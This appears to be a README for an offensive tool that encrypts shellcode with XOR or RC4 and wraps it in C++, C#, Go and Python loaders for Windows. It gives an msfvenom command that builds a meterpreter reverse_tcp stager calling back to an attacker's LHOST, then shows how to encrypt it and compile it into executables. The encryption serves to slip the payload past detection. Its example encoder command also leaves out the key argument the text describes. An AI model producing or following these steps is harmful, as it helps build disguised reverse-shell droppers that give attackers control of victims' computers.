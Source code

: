 Mutlibyte XOR or RC4 encrypted shellcode - Can run in Python3
============
Modify: Ch1ng

The technique uses two kind of code file:

1. The shellcode encoder/encrypter: `shellcode_encoder.py`
2. Various shellcode wrapper, in C++, C#, Binary and Python:
	- `encryptedShellcodeWrapper.cpp` - only supports XOR encryption
	- `encryptedShellcodeWrapper.go` - only supports XOR encryption
	- `encryptedShellcodeWrapper.cs` - supports both XOR and RC4 encryption
	- `encryptedShellcodeWrapper.py` - supports both XOR and RC4 encryption
	- `encryptedShellcodeWrapper.bin` - supports both XOR and RC4 encryption

Installation
----------------------
Installation is straight forward:
* Git clone this repository: `git clone https://github.com/Arno0x/ShellcodeWrapper ShellcodeWrapper`
* cd into the ShellcodeWrapper folder: `cd ShellcodeWrapper`
* Install requirements using `pip install -r requirements.txt`
* Give the execution rights to the main script: `chmod +x shellcode_encoder.py`

Usage
----------------------
First, you need to obtain a usable shellcode from metasploit (*run it from a Kali distribution*), for example:
```
root@kali:~# msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f raw > shellcode.raw
```

In this example, the output is a raw (*unencoded & unencrypted*) reverse_tcp meterpreter stager for x86 platform. You should adapt it to your needs (*payload and parameters*).

Second, run the `shellcode_encoder.py` script along with the desired arguments:
  - raw shellcode filename
  - encryption key
  - encryption type: `xor` or `rc4`
  - desired output: `base64`, `cpp`, `csharp`, `python`, `binary`, `go`

For instance, to xor encrypt the shellcode with the key '*thisismykey*' and get an output code file in C#, C++, Go, Binary and Python:
```
root@kali:~# ./shellcode_encoder.py -cpp -cs -py -bin -go shellcode.raw xor
```
This will generate C#, C++, Go, Binary and Python code file in the `result` folder. Those files are ready to use/compile.

Eventually:

1. For the C++ wrapper, compile the C++ code file into a Windows executable: you can create a new VisualStudio project for **Win32 console application** and use the C++ code provided as the main file. Any other method of compilation will require slight adjustment of the C++ code (headers mostly).
2. For the C# wrapper, compile the C# code file into a Windows executable:
	`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:multibyteEncodeShellcode.exe multibyteEncodeShellcode.cs`
3. For the Python wrapper, just run it as a python script, or use PyInstaller to make it a Windows standalone executable
